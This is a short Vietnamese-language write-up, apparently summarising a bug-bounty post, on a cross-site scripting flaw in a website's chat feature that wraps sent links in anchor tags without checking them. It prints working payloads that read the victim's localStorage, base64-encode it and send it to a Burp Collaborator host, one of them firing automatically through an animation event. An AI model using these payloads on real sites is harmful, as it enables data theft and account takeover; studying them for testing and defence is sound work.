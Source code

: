 
Sử dụng XSS để lấy thông tin nạn nhân

# Mô tả

Ứng dụng chat của website luôn gói link được gửi trong chat vào thẻ a 

Ví dụ bạn gõ https://google.com và nhấn gửi. Ứng dụng sẽ gói thành `<a href= google.com>`

Vấn đề ở đây là Ứng dụng không kiểm tra các kí tự được gói trong link. Payload kiểm tra là:

`https://google.com"'/>` chuyển thành `"target="_blank rel="noreferred" https://google.com`

Sau đó
`https://google.com"onclick="alert('1')"a="` Thành `<a href="https://google.com" onclick="alert(1)" a="">`

Như vậy ứng dụng đã mắc lỗi XSS và có thể bị khai thác

# Khai thác lỗi

## Lấy thông tin lưu trên local store

Payload
`https://google.com"onclick="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src='https://burpcollaborator.burpcollaborator.net?t='+c"a="`

Nếu link được gửi đi và có user nhấp vào, thông tin được lưu trong localStore của họ sẽ bị gửi đến server C2 burp

Payload này chủ được nạp khi có user click vào.

## Làm thế nào để payload tự trigger mà không cần tác động của user
Payload có thể trigger nếu nó có thể inject vào một animation style tag. Tác giả đã tìm thấy một file css như vậy và tạo ra payload:

- payload đặt trong onanimation attribute
- Định nghĩa tag style  

`https://google.com"onanimationstart="b=JSON.stringify(localStorage);c=btoa(b);i=new/**/Image;i.src=’https://burpcollaborator.burpcollaborator.net?t='+c"style="animation-name:Toastify__bounceOutRight`

Khi link được gửi và user click vào, tag style load, sự kiện thực thi, và code tự động gửi thông tin về máy attacker.


### Source: 

1. [How I managed to trigger XSS automatically to get critical account takeover](https://c4rrilat0r.medium.com/how-i-managed-to-trigger-xss-automatically-to-get-critical-account-takeover-92ea3abcaf9)
2. [Cross-Site Scripting Cheat Sheet from Port Swigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)